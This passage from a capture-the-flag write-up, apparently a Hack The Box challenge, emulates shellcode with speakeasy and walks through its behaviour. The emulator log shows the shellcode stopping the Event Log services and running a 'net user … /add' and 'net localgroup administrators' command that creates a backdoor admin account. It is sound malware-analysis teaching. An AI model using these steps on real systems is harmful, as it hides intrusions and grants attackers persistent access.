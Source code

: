 On the first run, the shellcode seems to perform a check between the computer name and the expected value. Since it exits we assume that this is a terminal condition so we need to change our emulator's computer name to bypass the check!

Thankfully, `speakeasy` provides us with a config file that specifies such values. After changing the hostname to what seems to be the expected value of `ARCH_WORKSTATION-7` we re-run:

This time we need to provide the custom config using the `-c default.json`:

```bash
$ speakeasy -t shellcode -r -a amd64 -c default.json

* exec: shellcode
0x1d19: 'kernel32.LoadLibraryA("Advapi32.dll")' -> 0x78000000
0x1d6c: 'kernel32.IsDebuggerPresent()' -> 0x0
0x1f09: 'kernel32.GetComputerNameExA("ComputerNameNetBIOS", "ARCH_WORKSTATION-7", 0x12)' -> 0x1
0x1f18: 'kernel32.lstrlenA("ARCH_WORKSTATION-7")' -> 0x12
0x1f2b: 'kernel32.lstrlenA("ARCH_WORKSTATION-7")' -> 0x12
0x1f8d: 'advapi32.OpenSCManagerA(0x0, 0x0, 0xf003f)' -> 0xa500
0x1faf: 'advapi32.OpenServiceA(0xa500, "Wecsvc", 0x20)' -> 0x2804
0x1fd1: 'advapi32.OpenServiceA(0xa500, "EventLog", 0x20)' -> 0x2808
0x1ff5: 'advapi32.ControlService(0x2804, 0x1, 0x1203e48)' -> 0x1
0x2018: 'advapi32.ControlService(0x2808, 0x1, 0x1203e50)' -> 0x1
0x204b: 'kernel32.WinExec("cmd /c "net user game-architect-02 HTB{REDACTED} /add /y && net localgroup administrators game-architect-02 /add"", 0x0)' -> 0x20
0x2054: 'kernel32.ExitProcess(0x0)' -> 0x0
0x2054: 'kernel32.ExitProcess(0x0)' -> 0x0
* Finished emulating
```

We see that the shellcode gets a handle on the Service Manager and uses it to then get a handle on the `Wecsvc` and `EventLog` Services. Then it stops them using the `ConstrolService()` function and the `0x1` argument. 

After killing the Event Log Service, the shellcode adds a backdoored user with the flag as the password!
